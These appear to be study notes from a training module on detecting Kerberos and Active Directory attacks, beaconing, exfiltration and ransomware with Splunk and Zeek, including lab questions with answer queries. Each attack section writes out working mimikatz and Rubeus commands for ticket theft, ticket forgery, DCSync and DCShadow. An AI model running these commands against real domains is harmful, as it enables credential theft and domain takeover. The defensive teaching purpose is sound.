Pass-the-Ticket (PtT) is a lateral movement technique used by attackers to move laterally within a network by abusing Kerberos TGT (Ticket Granting Ticket) and TGS (Ticket Granting Service) tickets. Instead of using NTLM hashes, PtT leverages Kerberos tickets to authenticate to other systems and access network resources without needing to know the users' passwords. This technique allows attackers to move laterally and gain unauthorized access across multiple systems.
PtT Attack Steps:
-
The attacker gains administrative access to a system, either through an initial compromise or privilege escalation.
-
The attacker uses tools such as
MimikatzorRubeusto extract valid TGT or TGS tickets from the compromised system's memory..\Rubeus.exe monitor /interval:30 -
The attacker submits the extracted ticket for the current logon session. The attacker can now authenticate to other systems and network resources without needing plaintext passwords.
.\Rubeus.exe ptt /ticket:<extracted ticket in step 2>
Related Windows Security Events
During user access to network resources, several Windows Event Logs are generated to record the logon process and related activities.
-
Event ID 4648 (Explicit Credential Logon Attempt): This event is logged when explicit credentials (e.g., username and password) are provided during logon.
-
Event ID 4624 (Logon): This event indicates that a user has successfully logged on to the system.
-
Event ID 4672 (Special Logon): This event is logged when a user's logon includes special privileges, such as running applications as an administrator.
-
Event ID 4768 (Kerberos TGT Request): This event is logged when a client requests a Ticket Granting Ticket (TGT) during the Kerberos authentication process.
-
Event ID 4769 (Kerberos Service Ticket Request): When a client requests a Service Ticket (TGS Ticket) to access a remote service during the Kerberos authentication process, Event ID 4769 is generated.
Pass-the-Ticket Detection Opportunities
This approach can be converted into the following Splunk detection: Look for Event ID 4769 (Kerberos Service Ticket Request) or Event ID 4770 (Kerberos Service Ticket was renewed) without a prior Event ID 4768 (Kerberos TGT Request) from the same system within a specific time window.
Another approach is looking for mismatches between Service and Host IDs (in Event ID 4769) and the actual Source and Destination IPs (in Event ID 3). Note that there will be several legitimate mismatches, but unusual hostnames or services should be investigated further.
Also, in cases where an attacker imports a TGS ticket into the logon session, it is important to review Event ID 4771 (Kerberos Pre-Authentication Failed) for mismatches between Pre-Authentication type and Failure Code. For example, Pre-Authentication type 2 (Encrypted Timestamp) with Failure Code 0x18 (Pre-authentication information was invalid) would indicate that the client sent a Kerberos AS-REQ with a pre-authentication encrypted timestamp, but the KDC couldnt decrypt it.
It is essential to understand that these detection opportunities should be enhanced with behavior-based detection. In other words, context is vital. Looking for Event IDs 4769, 4770, or 4771 alone will likely generate many false positives. Correlate the event logs with user and system behavior patterns, and consider whether there are any suspicious activities associated with the user or system involved in the logs.
Detecting Pass-the-Ticket With Splunk
index=main earliest=1690392405 latest=1690451745 source="WinEventLog:Security" user!=*$ EventCode IN (4768,4769,4770)
| rex field=user "(?<username>[^@]+)"
| rex field=src_ip "(\:\:ffff\:)?(?<src_ip_4>[0-9\.]+)"
| transaction username, src_ip_4 maxspan=10h keepevicted=true startswith=(EventCode=4768)
| where closed_txn=0
| search NOT user="*$@*"
| table _time, ComputerName, username, src_ip_4, service_name, category
Detecting Overpass-the-Hash
Adversaries may utilize the Overpass-the-Hash technique to obtain Kerberos TGTs by leveraging stolen password hashes to move laterally within an environment or to bypass typical system access controls. Overpass-the-Hash (also known as Pass-the-Key) allows authentication to occur via Kerberos rather than NTLM. Both NTLM hashes or AES keys can serve as a basis for requesting a Kerberos TGT.
Overpass-the-Hash Attack Steps:
-
The attacker employs tools such as Mimikatz to extract the NTLM hash of a user who is currently logged in to the compromised system. The attacker must have at least local administrator privileges on the system to be able to extract the hash of the user.
sekurlsa::logonpasswords -
The attacker uses a tool such as Rubeus to craft a raw AS-REQ request for a specified user to request a TGT ticket. This step does not require elevated privileges on the host to request the TGT, which makes it a stealthier approach than the Mimikatz Pass-the-Hash attack.
.\Rubeus.exe asktgt /user:Administrator /domain:lab.internal.local /rc4:<admin's NTLM hash extracted in step 1> ptt -
Analogous to the Pass-the-Ticket technique, the attacker submits the requested ticket for the current logon session.
Overpass-the-Hash Detection Opportunities
Mimikatz's Overpass-the-Hash attack leaves the same artifacts as the Pass-the-Hash attack, and can be detected using the same strategies.
Rubeus, however, presents a somewhat different scenario. Unless the requested TGT is used on another host, Pass-the-Ticket detection mechanisms may not be effective, as Rubeus sends an AS-REQ request directly to the Domain Controller (DC), generating Event ID 4768 (Kerberos TGT Request). However, communication with the DC (TCP/UDP port 88) from an unusual process can serve as an indicator of a potential Overpass-the-Hash attack.
Detecting Overpass-the-Hash With Splunk (Targeting Rubeus)
index=main earliest=1690443407 latest=1690443544 source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" (EventCode=3 dest_port=88 Image!=*lsass.exe) OR EventCode=1
| eventstats values(process) as process by process_id
| where EventCode=3
| stats count by _time, Computer, dest_ip, dest_port, Image, process
| fields - count
Event ID 3: Network connection detected
Detecting Golden Tickets/Silver Tickets
A Golden Ticket attack is a potent method where an attacker forges a Ticket Granting Ticket (TGT) to gain unauthorized access to a Windows Active Directory domain as a domain administrator. The attacker creates a TGT with arbitrary user credentials and then uses this forged ticket to impersonate a domain administrator, thereby gaining full control over the domain. The Golden Ticket attack is stealthy and persistent, as the forged ticket has a long validity period and remains valid until it expires or is revoked.
Golden Tickets Attack Steps:
-
The attacker extracts the NTLM hash of the KRBTGT account using a
DCSyncattack (alternatively, they can useNTDS.ditandLSASS process dumpson the Domain Controller). -
Armed with the
KRBTGThash, the attacker forges a TGT for an arbitrary user account, assigning it domain administrator privileges.``` mimikatz # kerberos::golden /domain:lab.internal.local /sid:
/user:EvilAdmin /ptt klist ``` 3. The attacker injects the forged TGT in the same manner as a Pass-the-Ticket attack.
Golden Ticket Detection Opportunities
Detecting Golden Ticket attacks can be challenging, as the TGT can be forged offline by an attacker, leaving virtually no traces of Mimikatz execution. One option is to monitor common methods of extracting the KRBTGT hash:
- DCSync attack
- NTDS.dit file access
- LSASS memory read on the domain controller (Sysmon Event ID 10)
From another standpoint, a Golden Ticket is just another ticket for Pass-the-Ticket detection.
Detecting Golden Tickets With Splunk (Yet Another Ticket To Be Passed Approach)
index=main earliest=1690451977 latest=1690452262 source="WinEventLog:Security" user!=*$ EventCode IN (4768,4769,4770)
| rex field=user "(?<username>[^@]+)"
| rex field=src_ip "(\:\:ffff\:)?(?<src_ip_4>[0-9\.]+)"
| transaction username, src_ip_4 maxspan=10h keepevicted=true startswith=(EventCode=4768)
| where closed_txn=0
| search NOT user="*$@*"
| table _time, ComputerName, username, src_ip_4, service_name, category
Silver Ticket
Adversaries who possess the password hash of a target service account (e.g., SharePoint, MSSQL) may forge Kerberos Ticket Granting Service (TGS) tickets, also known as Silver Tickets. Silver tickets can be used to impersonate any user, but they are more limited in scope than Golden Tickets, as they only allow adversaries to access a specific resource (e.g., MSSQL) and the system hosting the resource.
Silver Ticket Attack Steps:
-
The attacker extracts the NTLM hash of the targeted service account (or the computer account for
CIFSaccess) using tools likeMimikatzor other credential dumping techniques. -
Generate a Silver Ticket: Using the extracted NTLM hash, the attacker employs tools like
Mimikatzto create a forged TGS ticket for the specified service.
.\mimikatz.exe
mimikatz # kerberos::golden /sid:<> /id:500 /target:iis.lab.internal.local /service:CIFS /domain:lab.internal.local /rc4:<> /user:DarthKittius /ptt
mimikatz # exit
klist
- The attacker injects the forged TGT in the same manner as a Pass-the-Ticket attack.
Silver Ticket Detection Opportunities
Detecting forged service tickets (TGS) can be challenging, as there are no simple indicators of attack. In both Golden Ticket and Silver Ticket attacks, arbitrary users can be used, including non-existent ones. Event ID 4720 (A user account was created) can help identify newly created users. Subsequently, we can compare this user list with logged-in users.
Because there is no validation for user permissions, users can be granted administrative permissions. Event ID 4672 (Special Logon) can be employed to detect anomalously assigned privileges.
Detecting Silver Tickets With Splunk
-
Detecting Silver Tickets With Splunk Through User Correlation
-
Let's first create a list of users (users.csv) leveraging Event ID 4720 (A user account was created) as follows.
index=main latest=1690448444 EventCode=4720
| stats min(_time) as _time, values(EventCode) as EventCode by user
| outputlookup users.csv
Note: users.csv can be downloaded from the Resources section of this module (upper right corner) and uploaded to Splunk by clicking Settings -> Lookups -> Lookup table files -> New Lookup Table File.
- Let's now compare the list above with logged-in users as follows.
index=main latest=1690545656 EventCode=4624
| stats min(_time) as firstTime, values(ComputerName) as ComputerName, values(EventCode) as EventCode by user
| eval last24h = 1690451977
| where firstTime > last24h
```| eval last24h=relative_time(now(),"-24h@h")```
| convert ctime(firstTime)
| convert ctime(last24h)
| lookup users.csv user as user OUTPUT EventCode as Events
| where isnull(Events)
| eval last24h=relative_time(now(),"-24h@h"): This command (commented out) would redefine the last24h variable to be exactly 24 hours before the current time. Note that this line is commented out with backticks, so it will not be executed in this search.
- Detecting Silver Tickets With Splunk By Targeting Special Privileges Assigned To New Logon
index=main latest=1690545656 EventCode=4672
| stats min(_time) as firstTime, values(ComputerName) as ComputerName by Account_Name
| eval last24h = 1690451977
```| eval last24h=relative_time(now(),"-24h@h") ```
| where firstTime > last24h
| table firstTime, ComputerName, Account_Name
| convert ctime(firstTime)
Detecting Unconstrained Delegation/Constrained Delegation Attacks
Unconstrained Delegation is a privilege that can be granted to User Accounts or Computer Accounts in an Active Directory environment, allowing a service to authenticate to another resource on behalf of any user. This might be necessary when, for example, a web server requires access to a database server to make changes on a user's behalf.
Attack Steps:
-
The attacker identifies systems on which Unconstrained Delegation is enabled for service accounts.
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroundid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description -
The attacker gains access to a system with Unconstrained Delegation enabled.
-
The attacker extracts Ticket Granting Ticket (TGT) tickets from the memory of the compromised system using tools such as Mimikatz.
.\Rubeus.exe asktgt /user:Administrator /domain:lab.internal.local /rc4:<NTLM hash> ptt
Unconstrained Delegation Attack Detection Opportunities
PowerShell commands and LDAP search filters used for Unconstrained Delegation discovery can be detected by monitoring PowerShell script block logging (Event ID 4104) and LDAP request logging.
The main goal of an Unconstrained Delegation attack is to retrieve and reuse TGT tickets, so Pass-the-Ticket detection can be used as well.
Detecting Unconstrained Delegation Attacks With Splunk
index=main earliest=1690544538 latest=1690544540 source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104 Message="*TrustedForDelegation*" OR Message="*userAccountControl:1.2.840.113556.1.4.803:=524288*"
| table _time, ComputerName, EventCode, Message
Constrained Delegation is a feature in Active Directory that allows services to delegate user credentials only to specified resources, reducing the risk associated with Unconstrained Delegation. Any user or computer accounts that have service principal names (SPNs) set in their msDS-AllowedToDelegateTo property can impersonate any user in the domain to those specific SPNs.
Attack Steps:
-
The attacker identifies systems where Constrained Delegation is enabled and determines the resources to which they are allowed to delegate.
Get-ADObject -fi {(msDS-AllowedToDelegateTo -like "*")} -
The attacker gains access to the TGT of the principal (user or computer). The TGT can be extracted from memory (Rubeus dump) or requested with the principal's hash.
.\Rubeus.exe asktgt /user:Backup /domain:lab.internal.local /password:B@ckup1234 /outfile:ticket.kirbi -
The attacker uses the S4U technique to impersonate a high-privileged account to the targeted service (requesting a TGS ticket).
.\Rubeus.exe s4u /ticket:ticket.kirbi /impersonateuser:WELDON_EVANS /domain:lab.internal.local /msdsspn:ldap/dc.lab.internal.local /altservice:cifs /ptt -
The attacker injects the requested ticket and accesses targeted services as the impersonated user.
klist
Kerberos Protocol Extensions - Service For User
Service for User to Self (S4U2self) and Service for User to Proxy (S4U2proxy) allow a service to request a ticket from the Key Distribution Center (KDC) on behalf of a user. S4U2self allows a service to obtain a TGS for itself on behalf of a user, while S4U2proxy allows the service to obtain a TGS on behalf of a user for a second service.
S4U2self was designed to enable a user to request a TGS ticket when another method of authentication was used instead of Kerberos. Importantly, this TGS ticket can be requested on behalf of any user, for example, an Administrator.`
S4U2proxy was designed to take a forwardable ticket and use it to request a TGS ticket to any SPN specified in the msds-allowedtodelegateto options for the user specified in the S4U2self part.
With a combination of S4U2self and S4U2proxy, an attacker can impersonate any user to service principal names (SPNs) set in msDS-AllowedToDelegateTo properties.
Constrained Delegation Attack Detection Opportunities
Similar to Unconstrained Delegation, it is possible to detect PowerShell commands and LDAP requests aimed at discovering vulnerable Constrained Delegation users and computers.
To request a TGT ticket for a principal, as well as a TGS ticket using the S4U technique, Rubeus makes connections to the Domain Controller. This activity can be detected as an unusual process network connection to TCP/UDP port 88 (Kerberos).
Detecting Constrained Delegation Attacks With Splunk
- Detecting Constrained Delegation Attacks - Leveraging PowerShell Logs
index=main earliest=1690544553 latest=1690562556 source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104 Message="*msDS-AllowedToDelegateTo*"
| table _time, ComputerName, EventCode, Message
Event Id 4104 (script block logging), it will capture PowerShell commands and show script block logging.
- Detecting Constrained Delegation Attacks - Leveraging Sysmon Logs
index=main earliest=1690562367 latest=1690562556 source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| eventstats values(process) as process by process_id
| where EventCode=3 AND dest_port=88
| table _time, Computer, dest_ip, dest_port, Image, process
Event Id 3: Network connection detected
Detecting DCSync/DCShadow
DCSync is a technique exploited by attackers to extract password hashes from Active Directory Domain Controllers (DCs). This method capitalizes on the Replication Directory Changes permission typically granted to domain controllers, enabling them to read all object attributes, including password hashes. Members of the Administrators, Domain Admins, and Enterprise Admin groups, or computer accounts on the domain controller, have the capability to execute DCSync to extract password data from Active Directory. This data may encompass both current and historical hashes of potentially valuable accounts, such as KRBTGT and Administrators.
Attack Steps:
-
The attacker secures administrative access to a domain-joined system or escalates privileges to acquire the requisite rights to request replication data.
-
Utilizing tools such as Mimikatz, the attacker requests domain replication data by using the DRSGetNCChanges interface, effectively mimicking a legitimate domain controller.
mimikatz # lsadump::dcsync /domain:lab.internal.local /user:krbtgt -
The attacker may then craft Golden Tickets, Silver Tickets, or opt to employ Pass-the-Hash/Overpass-the-Hash attacks.
DCSync Detection Opportunities
DS-Replication-Get-Changes operations can be recorded with Event ID 4662. However, an additional Audit Policy Configuration is needed since it is not enabled by default (Computer Configuration/Windows Settings/Security Settings/Advanced Audit Policy Configuration/DS Access).
Seek out events containing the property {1131f6aa-9c07-11d1-f79f-00c04fc2dcd2}, corresponding to DS-Replication-Get-Changes, as Event 4662 solely consists of GUIDs.
Event ID 4622: A security package has been loaded by the Local Security Authority.
Detecting DCSync With Splunk
index=main earliest=1690544278 latest=1690544280 EventCode=4662 Message="*Replicating Directory Changes*"
| rex field=Message "(?P<property>Replicating Directory Changes.*)"
| table _time, user, object_file_name, Object_Server, property
DCShadow is an advanced tactic employed by attackers to enact unauthorized alterations to Active Directory objects, encompassing the creation or modification of objects without producing standard security logs. The assault harnesses the Directory Replicator (Replicating Directory Changes) permission, customarily granted to domain controllers for replication tasks. DCShadow is a clandestine technique enabling attackers to manipulate Active Directory data and establish persistence within the network. Registration of a rogue DC necessitates the creation of new server and nTDSDSA objects in the Configuration partition of the AD schema, which demands Administrator privileges (either Domain or local to the DC) or the KRBTGT hash.
Attack Steps:
-
The attacker secures administrative access to a domain-joined system or escalates privileges to acquire the necessary rights to request replication data.
-
The attacker registers a rogue domain controller within the domain, leveraging the
Directory Replicatorpermission, and executes changes to AD objects, such as modifying user groups to Domain Administrator groups.mimikatz # token::whoami mimikatz # lsadump::dcshadow /object:JENNY_HICKMAN /attribute:primaryGroupID /value:5123. The rogue domain controller initiates replication with the legitimate domain controllers, disseminating the changes throughout the domain.mimikatz # lsadump::dcshadow /push
DCShadow Detection Opportunities
To emulate a Domain Controller, DCShadow must implement specific modifications in Active Directory:
-
Add a new nTDSDSA object
-
Append a global catalog ServicePrincipalName to the computer object
Event ID 4742 (Computer account was changed) logs changes related to computer objects, including ServicePrincipalName.
Detecting DCShadow With Splunk
index=main earliest=1690623888 latest=1690623890 EventCode=4742
| rex field=Message "(?P<gcspn>GC\/[a-zA-Z0-9\.\-\/]+)"
| table _time, ComputerName, Security_ID, Account_Name, user, gcspn
| search gcspn=*
Detecting RDP Brute Force Attacks
We often encounter Remote Desktop Protocol (RDP) brute force attacks as a favorite vector for attackers to gain initial foothold in a network. The concept of an RDP brute force attack is relatively straightforward: attackers attempt to login into a Remote Desktop session by systematically guessing and trying different passwords until they find the correct one. This method exploits the fact that many users often have weak or default passwords that are easy to guess.
Detecting RDP Brute Force Attacks With Splunk & Zeek Logs
Related Evidence:
-
Related Directory:
/home/htb-student/module_files/rdp_bruteforce -
Related Splunk Index:
rdp_bruteforce -
Related Splunk Sourcetype:
bro:rdp:json
index="rdp_bruteforce" sourcetype="bro:rdp:json"
| bin _time span=5m
| stats count values(cookie) by _time, id.orig_h, id.resp_h
| where count>30
Q: Construct a Splunk query targeting the "ssh_bruteforce" index and the "bro:ssh:json" sourcetype. The resulting output should display the time bucket, source IP, destination IP, client, and server, together with the cumulative count of authentication attempts where the total number of attempts surpasses 30 within a 5-minute time window. Enter the IP of the client that performed the SSH brute attack as your answer.
index="ssh_bruteforce" sourcetype="bro:ssh:json"
| bin _time span=5m
| stats count as auth_attempts by _time, src, dest, client, server
Detecting Beaconing Malware
Malware beaconing is a technique we frequently encounter in our cybersecurity investigations. It refers to the periodic communication initiated by malware-infected systems with their respective command and control (C2) servers. The beacons, typically small data packets, are sent at regular intervals, much like a lighthouse sends out a regular signal.
In our analysis of beaconing behavior, we often observe several distinct patterns. The beaconing intervals can be fixed, jittered (varied slightly from a fixed pattern), or follow a more complex schedule based on the malware's specific objectives. We've encountered malware that uses various protocols for beaconing, including HTTP/HTTPS, DNS, and even ICMP (ping).
Detecting Beaconing Malware With Splunk & Zeek Logs
index="cobaltstrike_beacon" sourcetype="bro:http:json"
| sort 0 _time
| streamstats current=f last(_time) as prevtime by src, dest, dest_port
| eval timedelta = _time - prevtime
| eventstats avg(timedelta) as avg, count as total by src, dest, dest_port
| eval upper=avg*1.1
| eval lower=avg*0.9
| where timedelta > lower AND timedelta < upper
| stats count, values(avg) as TimeInterval by src, dest, dest_port, total
| eval prcnt = (count/total)*100
| where prcnt > 90 AND total > 10
Detecting Nmap Port Scanning
Detecting Nmap Port Scanning With Splunk & Zeek Logs
index="cobaltstrike_beacon" sourcetype="bro:conn:json" orig_bytes=0 dest_ip IN (192.168.0.0/16, 172.16.0.0/12, 10.0.0.0/8)
| bin span=5m _time
| stats dc(dest_port) as num_dest_port by _time, src_ip, dest_ip
| where num_dest_port >= 3
Q: Use the "cobaltstrike_beacon" index and the "bro:conn:json" sourcetype. Did the attacker scan port 505? Answer format: Yes, No
index="cobaltstrike_beacon" sourcetype="bro:conn:json" orig_bytes=0 dest_ip IN (192.168.0.0/16, 172.16.0.0/12, 10.0.0.0/8)
| table _time, src_ip, dest_ip, dest_port
| where dest_port=505
Detecting Kerberos Brute Force Attacks
When adversaries perform Kerberos-based user enumeration, they send an AS-REQ (Authentication Service Request) message to the Key Distribution Center (KDC), which is responsible for handling Kerberos authentication. This message includes the username they're trying to validate. They pay close attention to the response they receive, as it reveals valuable information about the existence of the specified user account.
A valid username will prompt the server to return a TGT or raise an error like KRB5KDC_ERR_PREAUTH_REQUIRED, indicating that preauthentication is required. On the other hand, an invalid username will be met with a Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN in the AS-REP (Authentication Service Response) message. By examining the responses to their AS-REQ messages, adversaries can quickly determine which usernames are valid on the target system.
Detecting Kerberos Brute Force Attacks With Splunk & Zeek Logs
index="kerberos_bruteforce" sourcetype="bro:kerberos:json"
error_msg!=KDC_ERR_PREAUTH_REQUIRED
success="false" request_type=AS
| bin _time span=5m
| stats count dc(client) as "Unique users" values(error_msg) as "Error messages" by _time, id.orig_h, id.resp_h
| where count>30
index="kerberos_bruteforce" sourcetype="bro:kerberos:json" error_msg!=KDC_ERR_PREAUTH_REQUIRED
success="false" request_type=AS
| bin _time span=5m
| table client,id.orig_h, id.resp_h
| where client="accrescent/windomain.local"
Detecting Kerberoasting
Evidence Source: https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting
Detecting Kerberoasting With Splunk & Zeek Logs
index="sharphound" sourcetype="bro:kerberos:json"
request_type=TGS cipher="rc4-hmac"
forwardable="true" renewable="true"
| table _time, id.orig_h, id.resp_h, request_type, cipher, forwardable, renewable, client, service
Detecting Golden Tickets
Detecting Golden Tickets With Splunk & Zeek Logs
index="golden_ticket_attack" sourcetype="bro:kerberos:json"
| where client!="-"
| bin _time span=1m
| stats values(client), values(request_type) as request_types, dc(request_type) as unique_request_types by _time, id.orig_h, id.resp_h
| where request_types=="TGS" AND unique_request_types==1
Detecting Cobalt Strike's PSExec
Image Source: https://thedfirreport.com/2021/08/29/cobalt-strike-a-defenders-guide/
Detecting Cobalt Strike's PSExec With Splunk & Zeek Logs
index="cobalt_strike_psexec"
sourcetype="bro:smb_files:json"
action="SMB::FILE_OPEN"
name IN ("*.exe", "*.dll", "*.bat")
path IN ("*\\c$", "*\\ADMIN$")
size>0
Q: Use the "change_service_config" index and the "bro:dce_rpc:json" sourcetype to create a Splunk search that will detect SharpNoPSExec (https://gist.github.com/defensivedepth/ae3f882efa47e20990bc562a8b052984). Enter the IP included in the "id.orig_h" field as your answer.
index="change_service_config"
sourcetype="bro:dce_rpc:json"
operation IN ("ChangeServiceConfigW", "StartServiceA")
Detecting Zerologon
The Zerologon vulnerability, also known as CVE-2020-1472, is a critical flaw in the implementation of the Netlogon Remote Protocol, specifically in the cryptographic algorithm used by the protocol. The vulnerability can be exploited by an attacker to impersonate any computer, including the domain controller, and execute remote procedure calls on their behalf. Let's dive into the technical details of this flaw.
Image Source: https://www.trendmicro.com/en_us/what-is/zerologon.html
Detecting Zerologon With Splunk & Zeek Logs
index="zerologon" endpoint="netlogon" sourcetype="bro:dce_rpc:json"
| bin _time span=1m
| where operation == "NetrServerReqChallenge" OR operation == "NetrServerAuthenticate3" OR operation == "NetrServerPasswordSet2"
| stats count values(operation) as operation_values dc(operation) as unique_operations by _time, id.orig_h, id.resp_h
| where unique_operations >= 2 AND count>100
Detecting Exfiltration (HTTP)
Data exfiltration inside the POST body is a technique that attackers employ to extract sensitive information from a compromised system by disguising it as legitimate web traffic. It involves transmitting the stolen data from the compromised system to an external server controlled by the attacker using HTTP POST requests. Since POST requests are commonly used for legitimate purposes, such as form submissions and file uploads, this method of data exfiltration can be difficult to detect.
Detecting HTTP Exfiltration With Splunk & Zeek Logs
index="cobaltstrike_exfiltration_http" sourcetype="bro:http:json" method=POST
| stats sum(request_body_len) as TotalBytes by src, dest, dest_port
| eval TotalBytes = TotalBytes/1024/1024
Q: Use the "cobaltstrike_exfiltration_https" index and the "bro:conn:json" sourcetype. Create a Splunk search to identify exfiltration through HTTPS. Enter the identified destination IP as your answer.
index="cobaltstrike_exfiltration_https" sourcetype="bro:conn:json" proto="tcp" service="ssl"
| eval total_bytes = resp_bytes + orig_bytes
| stats sum(total_bytes) as total_data_transferred, count by id.resp_h
| where total_data_transferred > 10000000
| sort -total_data_transferred
| table id.resp_h, total_data_transferred, count
Detecting Exfiltration (DNS)
Attackers employ DNS-based exfiltration due to its reliability, stealthiness, and the fact that DNS traffic is often allowed by default in network firewall rules. By embedding data within DNS queries and responses, attackers can bypass security controls and exfiltrate data covertly.
How DNS Exfiltration Works:
Initial Compromise: The attacker gains access to the victim's network, typically through malware, phishing, or exploiting vulnerabilities.
Data Identification and Preparation: The attacker locates the data they want to exfiltrate and prepares it for transmission. This usually involves encoding or encrypting the data and splitting it into small chunks.
Exfiltration via DNS: The attacker sends the data in the subdomains of DNS queries, utilizing techniques such as DNS tunneling or fast flux. They typically use a domain under their control or a compromised domain for this purpose. The attacker's DNS server receives the queries, extracts the data, and reassembles it.
Data Retrieval and Analysis: After exfiltration, the attacker decodes or decrypts the data and analyzes it.
Detecting DNS Exfiltration With Splunk & Zeek Logs
index=dns_exf sourcetype="bro:dns:json"
| eval len_query=len(query)
| search len_query>=40 AND query!="*.ip6.arpa*" AND query!="*amazonaws.com*" AND query!="*._googlecast.*" AND query!="_ldap.*"
| bin _time span=24h
| stats count(query) as req_by_day by _time, id.orig_h, id.resp_h
| where req_by_day>60
| table _time, id.orig_h, id.resp_h, req_by_day
Q: Use the "dns_exf" index and the "bro:dns:json" sourcetype. Enter the attacker-controlled domain as your answer. Answer format: .
index="dns_exf" sourcetype="bro:dns:json"
| stats count by query
| where count > 100
| sort -count
| table query, count
Detecting Ransomware
Detecting Ransomware With Splunk & Zeek Logs (Excessive Overwriting)
index="ransomware_open_rename_sodinokibi" sourcetype="bro:smb_files:json"
| where action IN ("SMB::FILE_OPEN", "SMB::FILE_RENAME")
| bin _time span=5m
| stats count by _time, source, action
| where count>30
| stats sum(count) as count values(action) dc(action) as uniq_actions by _time, source
| where uniq_actions==2 AND count>100
Detecting Ransomware With Splunk & Zeek Logs (Excessive Renaming With The Same Extension)
index="ransomware_new_file_extension_ctbl_ocker" sourcetype="bro:smb_files:json" action="SMB::FILE_RENAME"
| bin _time span=5m
| rex field="name" "\.(?<new_file_name_extension>[^\.]*$)"
| rex field="prev_name" "\.(?<old_file_name_extension>[^\.]*$)"
| stats count by _time, id.orig_h, id.resp_p, name, source, old_file_name_extension, new_file_name_extension,
| where new_file_name_extension!=old_file_name_extension
| stats count by _time, id.orig_h, id.resp_p, source, new_file_name_extension
| where count>20
| sort -count
Q: Modify the action-related part of the Splunk search of this section that detects excessive file overwrites so that it detects ransomware that delete the original files instead of overwriting them. Run this search against the "ransomware_excessive_delete_aleta" index and the "bro:smb_files:json" sourcetype. Enter the value of the "count" field as your answer.
index="ransomware_excessive_delete_aleta" sourcetype="bro:smb_files:json"
| where action IN ("SMB::FILE_OPEN", "SMB::FILE_DELETE")
| bin _time span=5m
| stats count by _time, source, action
| where count > 30
| stats sum(count) as count values(action) as actions dc(action) as uniq_actions by _time, source
| where uniq_actions==2 AND count > 100
Skills Assessment
Q1: Use the "empire" index and the "bro:http:json" sourcetype. Identify beaconing activity by modifying the Splunk search of the "Detecting Beaconing Malware" section and enter the value of the "TimeInterval" field as your answer.
index="empire" sourcetype="bro:http:json"
| sort 0 _time
| streamstats current=f last(_time) as prevtime by src, dest, dest_port
| eval timedelta = _time - prevtime
| eventstats avg(timedelta) as avg, count as total by src, dest, dest_port
| eval upper=avg*1.1
| eval lower=avg*0.9
| where timedelta > lower AND timedelta < upper
| stats count, values(avg) as TimeInterval by src, dest, dest_port, total
Q2: Use the "printnightmare" index and the "bro:dce_rpc:json" sourcetype to create a Splunk search that will detect possible exploitation of the PrintNightmare vulnerability. Enter the IP included in the "id.orig_h" field as your answer.
index="printnightmare" sourcetype="bro:dce_rpc:json"
| where endpoint IN ("spoolss", "MS-RPRN", "MS-PAR")
| stats count by _time, id.orig_h, id.resp_h, endpoint, operation
| sort -count
Q3: Use the "bloodhound_all_no_kerberos_sign" index and the "bro:dce_rpc:json" sourcetype to create a Splunk search that will detect possible BloodHound activity (https://www.lares.com/blog/active-directory-ad-attacks-enumeration-at-the-network-layer/). Enter the IP included in the "id.orig_h" field as your answer.
index="bloodhound_all_no_kerberos_sign" sourcetype="bro:dce_rpc:json"
| where endpoint IN ("samr", "lsarpc")
| stats count by operation, id.orig_h, id.resp_h, endpoint
| sort -count